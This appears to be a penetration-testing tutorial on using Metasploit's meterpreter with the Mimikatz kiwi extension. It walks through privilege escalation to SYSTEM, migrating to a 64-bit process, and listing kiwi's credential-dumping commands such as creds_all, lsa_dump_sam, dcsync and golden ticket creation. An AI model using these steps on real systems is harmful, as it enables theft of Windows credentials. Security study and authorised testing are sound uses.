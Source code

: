 ## metasploit

### mimikatz kiwi

After obtaining a meterpreter shell, we need to ensure that our session is running with SYSTEM level privileges for Mimikatz to function properly.
```
meterpreter > getuid
Server username: WINXP-E95CE571A1\Administrator

meterpreter > getsystem
...got system (via technique 1).

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

Mimikatz supports 32bit and 64bit Windows architectures. After upgrading our privileges to SYSTEM, we need to verify, with the sysinfo command, what the architecture of the compromised machine is. This will be relevant on 64bit machines as we may have compromised a 32bit process on a 64bit architecture. If this is the case, meterpreter will attempt to load a 32bit version of Mimikatz into memory, which will cause most features to be non-functional. This can be avoided by looking at the list of running processes and migrating to a 64bit process before loading Mimikatz.
```
meterpreter > sysinfo
Computer        : HARIS-PC
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_GB
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
```  
Since this is a 64bit machine, we can proceed to load the Mimikatz module into memory.
```
meterpreter > load mimikatz
[!] The "mimikatz" extension has been replaced by "kiwi". Please use this in future.
[!] The "kiwi" extension has already been loaded.
meterpreter > help kiwi

Kiwi Commands
=============

    Command                Description
    -------                -----------
    creds_all              Retrieve all credentials (parsed)
    creds_kerberos         Retrieve Kerberos creds (parsed)
    creds_livessp          Retrieve Live SSP creds
    creds_msv              Retrieve LM/NTLM creds (parsed)
    creds_ssp              Retrieve SSP creds
    creds_tspkg            Retrieve TsPkg creds (parsed)
    creds_wdigest          Retrieve WDigest creds (parsed)
    dcsync                 Retrieve user account information via DCSync (unparsed)
    dcsync_ntlm            Retrieve user account NTLM hash, SID and RID via DCSync
    golden_ticket_create   Create a golden kerberos ticket
    kerberos_ticket_list   List all kerberos tickets (unparsed)
    kerberos_ticket_purge  Purge any in-use kerberos tickets
    kerberos_ticket_use    Use a kerberos ticket
    kiwi_cmd               Execute an arbitary mimikatz command (unparsed)
    lsa_dump_sam           Dump LSA SAM (unparsed)
    lsa_dump_secrets       Dump LSA secrets (unparsed)
    password_change        Change the password/hash of a user
    wifi_list              List wifi profiles/creds for the current user
    wifi_list_shared       List shared wifi profiles/creds (requires SYSTEM)
```